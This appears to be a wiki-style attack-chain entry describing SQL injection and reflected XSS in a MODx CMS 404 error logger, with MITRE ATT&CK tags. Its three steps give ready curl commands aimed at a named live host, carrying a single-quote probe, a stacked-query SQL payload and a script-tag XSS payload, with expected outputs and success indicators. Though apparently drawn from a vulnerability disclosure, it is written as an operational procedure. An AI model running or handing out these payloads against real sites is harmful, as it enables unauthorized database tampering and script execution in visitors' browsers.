

# SQL Injection and Reflected XSS in MODx CMS 404 Error Logging

Multi-stage attack chain demonstrating exploitation of unsanitized URL logging in MODx CMS, leading to SQL injection for database manipulation and reflected XSS for client-side script execution on the 404 error page.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Burp-Repeater]]

### Target Environment

- Web platform with MODx CMS
- MySQL database backend
- Access to public-facing 404 error handler

### Initial Access Requirements

- No credentials needed
- Direct network access to the target site (e.g., smarthistory.khanacademy.org)
- No prior access required; exploits public-facing application

## Detailed Attack Procedures

### Step 1: Trigger SQL Syntax Error
procedure: [[procedures/Trigger-SQL-Syntax-Error-in-404-Logging]]

**Objective**: Identify SQL injection vulnerability by injecting a single quote into a non-existent URL to cause a syntax error in the 404 logging INSERT query.

**Instructions**: Use [[commands/Test-SQL-Injection-with-Single-Quote-in-URL]] to send a crafted GET request:

```bash
curl -X GET "http://smarthistory.khanacademy.org/Campin/jeatest'" -H "Host: smarthistory.khanacademy.org" -H "Accept: */*" -H "Accept-Language: en" -H "User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)" --connect-timeout 10
```

**Expected Output**: MySQL syntax error in response, e.g., "INSERT INTO `hzadofss_modx`.`error_404_logger` (url, ip, host, referer, createdon) VALUES ('/Campin/jeatest'','107.23.39.46', ...)" confirming unsanitized insertion.

**Success Indicators**:
- SQL syntax error exposed in 404 page
- Confirmation of direct URL insertion into query

### Step 2: Confirm SQL Injection
procedure: [[procedures/Confirm-SQL-Injection-with-Stacked-Queries]]

**Objective**: Validate exploitable SQLi by attempting stacked queries in the URL path to append additional SQL commands.

**Instructions**: Execute [[commands/Attempt-Stacked-SQL-Injection-in-URL]] with a payload:

```bash
curl -X GET "http://smarthistory.khanacademy.org/Campin/qsdqsd',(SELECT 1),1,1,1)#" -H "Host: smarthistory.khanacademy.org" --connect-timeout 10
```

**Expected Output**: Further error or partial execution indicating stacked query support, though limited by server timeouts (e.g., 503 errors).

**Success Indicators**:
- No syntax error or altered response suggesting injection success
- Potential for arbitrary SQL if timeouts bypassed

### Step 3: Exploit Reflected XSS
procedure: [[procedures/Exploit-Reflected-XSS-via-SQL-Error-Output]]

**Objective**: Inject and reflect an XSS payload via the SQL error message on the 404 page to execute JavaScript in the viewer's browser.

**Instructions**: Send [[commands/Inject-XSS-Payload-into-URL-for-Reflection]]:

```bash
curl -X GET "http://smarthistory.khanacademy.org/Campin/jeatest'\"><script>alert(4);</script>" -H "Host: smarthistory.khanacademy.org" -H "Accept: */*" -H "Accept-Language: en" -H "User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)" --connect-timeout 10
```

**Expected Output**: 404 page with unescaped payload in HTML, e.g., "VALUES ('/Campin/jeatest'\"><script>alert(4);</script>','107.23.39.46', ...)", triggering alert on load.

**Success Indicators**:
- Script tag reflected without encoding
- JavaScript execution (e.g., alert popup) when page viewed

## Attack Chain Summary

### Key Achievements

1. Confirmed SQLi in 404 logging allowing potential data exfiltration or modification
2. Demonstrated reflected XSS for client-side attacks
3. Highlighted chained vulnerabilities in MODx CMS error handling

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]
- [[Collection]]

---

*Last updated: 2023-10-01T00:00:00Z*
